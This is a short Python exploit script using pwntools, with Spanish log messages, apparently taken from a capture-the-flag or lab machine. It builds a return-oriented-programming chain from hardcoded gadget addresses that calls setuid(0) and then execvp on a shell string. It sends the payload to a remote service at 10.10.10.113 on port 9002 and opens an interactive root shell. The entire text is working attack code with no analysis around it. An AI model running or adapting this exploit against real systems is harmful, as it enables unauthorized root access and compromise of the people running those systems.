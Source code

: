 #!/usr/bin/env python3

from pwn import *
import sys, signal

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    
    offset = 29
    junk = b"allow" + b"A" * offset
    
    pop_rdi = p64(0x400de3)
    pop_rsi = p64(0x400de1)
    null = p64(0x0)
    
    setuid = p64(0x400780)
    execvp = p64(0x400760)
    sh_addr = p64(0x40046e)
    
    payload = junk
    payload += pop_rdi
    payload += null
    payload += setuid
    payload += pop_rdi
    payload += sh_addr
    payload += pop_rsi
    payload += null
    payload += null
    payload += execvp
    payload += b"\n1.1.1.1\n"
    
    try:
        log.info("Conectando al servicio socat...")
        p = remote("10.10.10.113", 9002)
        log.success("Conexión establecida")
        
        log.info("Enviando payload ROP...")
        p.sendline(payload)
        
        log.success("¡Shell obtenida como root!")
        p.interactive()
        
    except Exception as e:
        log.error(f"Error: {e}")
        sys.exit(1)